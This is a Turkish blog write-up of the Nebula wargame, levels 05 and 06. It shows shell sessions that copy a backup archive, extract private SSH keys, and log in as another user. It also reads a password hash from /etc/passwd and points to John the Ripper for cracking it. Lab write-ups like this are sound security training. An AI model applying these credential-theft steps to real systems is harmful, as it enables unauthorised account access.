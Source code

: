 ```yaml
---
layout: post
title: "Nebula Write Up-2"
date: 2018-02-28
excerpt: "[Level 05-Level 09]"
comments: false
---
```

### Level 05

/home/flag05 dizininde, izinleri hatalı olabilecek olan bir dizin arıyoruz. 
{% raw %}
    level05@nebula:/home/flag05$ ls -al
    total 5
    drwxr-x--- 1 flag05 level05  100 2012-08-18 03:22 .
    drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
    drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
    -rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
    -rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
    -rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
    drwx------ 1 flag05 flag05   100 2011-11-20 03:07 .ssh
{% endraw %}
Dikkatimizi çeken .ssh ve .backup dizinleri. Fakat .ssh dizininin izinleri olması gerektiği gibi. .backup dizinini kurcalamaya devam ediyoruz.
> Bir dizin için ls komutunu kullanabilmek için  okuma(r) , cd komutunu kullanabilmek için çalıştırma(x) iznimizin bulunması gerekir.
{% raw %}
    level05@nebula:/home/flag05$ cd .backup
    level05@nebula:/home/flag05/.backup$
    drwxr-x--- 1 flag05 flag05    100  2011-11-20 03:22 .
    drwxr-xr-x 1 flag05 level05    80  2012-08-18 07:18 ..
    -rw-rw-r-- 1 flag05 flag05   1826  2011-11-20 20:13 backup-19072011.tgz
{% endraw %}
Yeterli izinlerimizin olmaması sebebiyle tar dosyasını bulunduğumuz yerde açamıyoruz. 
{% raw %}
    level05@nebula:/home/flag05/.backup$ cp backup-19072011.tgz /tmp
    level05@nebula:/home/flag05/.backup$ cd /tmp
    level05@nebula:/tmp$ ls -l
    -rw-rw-r-- 1 level05 level05   1826  2011-11-20 20:13 backup-19072011.tgz
    level05@nebula:/tmp$ tar -xvf backup-19072011.tgz
    .ssh/
    .ssh/id_rsa.pub
    .ssh/id_rsa
    .ssh/authorized_keys
{% endraw %}
flag05 kullanıcısının home dizininde bulunan ssh dizini, tar dosyasından çıkan anahtarları kullanarak ssh bağlantısı yapabileceğimiz fikrini veriyor.Ayrıca level05 kullanıcısının home dizinine baktığımızda halihazırda bir ssh dizini olduğunu görüyoruz.
Tar dosyasından çıkan anahtarların hangi kullanıcı tarafından oluşturulduğunu bilmediğimiz için anahtarların tamamını level05 kullanıcısının ssh dizinine kopyalıyoruz.
{% raw %}
    level05@nebula:/tmp$ cp .ssh/* /home/level05/.ssh
    level05@nebula:/tmp$ ssh flag05@nebula
    The authenticity of host 'nebula (127.0.1.1)' can't be established.  
    ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.  
    Are you sure you want to continue connecting (yes/no)? yes  
    Warning: Permanently added 'nebula' (ECDSA) to the list of known hosts.

          _   __     __          __
         / | / /__  / /_  __  __/ /___ _
        /  |/ / _ \/ __ \/ / / / / __ `/
      / /|  /  __/ /_/ / /_/ / / /_/ /
      /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula

    For level descriptions, please see the above URL.

    To log in, use the username of "levelXX" and password "levelXX", where  
    XX is the level number.

    Currently there are 20 levels (00 - 19).

    Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

    * Documentation:  https://help.ubuntu.com/
    Your Ubuntu release is not supported anymore.  
    For upgrade information, please visit:  
    http://www.ubuntu.com/releaseendoflife

    New release '12.04.3 LTS' available.  
    Run 'do-release-upgrade' to upgrade to it.

    The programs included with the Ubuntu system are free software;  
    the exact distribution terms for each program are described in the  
    individual files in /usr/share/doc/*/copyright.

    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by  
    applicable law.

    flag05@nebula:~$ /bin/getflag  
    You have successfully executed getflag on a target account  
{% endraw %}
### Level 06
flag06 kullanıcına ait bilgilerin eski bir unix sistemden geldiği bilgisi verilmiş. Credentials kelimesi ilk olarak /etc/passwd ve /etc/shadow dosyalarını hatırlatıyor. Fakat /etc/shadow dosyasını okumak için gerekli izinlerimiz bulunmadığı için /etc/passwd dosyasını kurcalıyoruz.
{% raw %}
    level06@nebula:~$ cat /etc/passwd | grep flag06
    flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
{% endraw %}
> /etc/passwd dosyası tüm kullanıcılar tarafından okunabildiği için, şifrelenmiş parolalar bu dosyada gösterilmez.Bunun yerine x ile temsil edilir. Parolalar şifrelenmiş bile olsa parola-kırma araçlarıyla bu parolaları kırmak mümkün olabilir.


Burda ise şifrelenmişde olsa flag06 kullanıcısına ait parola, tüm kullanıcılar tarafından okunabilir olan /etc/passwd dosyasında gösterilmiş. 


> John The Ripper en çok bilinen parola kırma araçlarından biridir.Kali Linux, Parrot gibi güvenlik dağıtımlarında hazır olarak bulunmaktadır.
<figure >
	<a href="/assets/img/xx.png"><img src="/assets/img/xx.png"></a>
	
</figure>
